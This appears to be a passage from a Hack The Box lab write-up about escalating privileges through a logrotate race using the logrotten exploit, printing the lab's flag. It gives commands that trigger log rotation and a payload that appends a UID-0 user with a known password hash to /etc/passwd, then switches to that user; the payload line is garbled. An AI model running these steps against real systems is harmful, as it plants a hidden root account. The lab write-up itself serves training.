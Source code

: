 ```
echo "This is a string" > /home/htb-student/backups/access.log
```

As an outcome (we need to run this even 3 times), we will obtain the flag.txt in our /home/htb-student folder.

```
cat /home/htb-student/flag.txt
```

Results:  HTB{l0G_r0t7t73N_00ps}

Another way to do it:

We will generate a new user with root capabilities:

```
# Generate a hashed password in the target host. My password is going to be "password123"
openssl passwd -1 password123

# Craft the payload. This payload will add the user lele with password password123 with the home directory set to root
# username:hashed_password:UID:GID:comment:home_directory:shell
echo "echo echo "echo 'lele:\$1\$twJx/0OM\$PhLy4vWVoaEWLrd52BDbq/:0:0:lele:/root:/bin/bash' >> /etc/passwd" > payload

# Run the exploit
./logrotten -p payload /home/htb-student/backups/access.log

# Open another ssh connection with the target host and trigger the log rotation mechanism for access.log
echo "This is a string" > /home/htb-student/backups/access.log

# Now we wait for some minutes and after a while, we can cat the /etc/passwd file and see the lele user in there:
cat /etc/passwd

# We can impersonate lele
su lele
# Enter password password123
```


